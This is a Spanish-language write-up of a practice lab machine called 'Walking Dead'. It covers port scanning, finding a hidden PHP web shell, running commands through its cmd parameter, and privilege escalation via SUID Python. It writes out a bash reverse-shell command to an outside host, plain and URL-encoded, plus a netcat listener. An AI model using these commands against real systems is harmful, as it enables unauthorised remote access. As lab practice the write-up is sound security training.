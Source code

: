 # Walking Dead
## Reconocimiento
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```
Comienzo el reconocimiento escaneando con `nmap` los puertos de la máquina, hay un servidor SSH y uno HTTP, así que visito la página.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/29-walkingDead/imgs/1.png]]

Explorando el código fuente me encuentro con un link "oculto", desde las herramientas de dev cambiamos los estilos y se puede ver claramente

![[Ciberseguridad/Hacking/Writeups/253_septiembre/29-walkingDead/imgs/2.png]]

El enlace lleva a la ruta `/hidden/.shell.php` al visitarla veo que está vacía, haciendo fuzzing encuentro también el endpoint `/backup.txt` pero al visitarlo me da un error 403.

## Explotación
Probando con el endpoint `shell.php` me doy cuenta que al pasar `cmd` como parámetro PHP se pueden ejecutar comandos.
```
http://172.17.0.2/hidden/.shell.php?cmd=whoami
```
URLencodeo el comando `bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'` para darme una revshell, al poner la URL `172.17.0.2/hidden/.shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.157%2F443%200%3E%261%27` y darle a enter ya estoy dentro como `www-data` (habiéndome puesto antes en escucha con `nc -nvlp 443`).
## Post explotación
En primer lugar, sanitizo la shell

![[Ciberseguridad/Hacking/Writeups/253_septiembre/29-walkingDead/imgs/3.png]]

Luego, viendo que binarios tienen permisos SUID veo que Python está entre ellos, con lo cual una búsqueda en GTFObins soluciona el laboratorio

![[Ciberseguridad/Hacking/Writeups/253_septiembre/29-walkingDead/imgs/4.png]]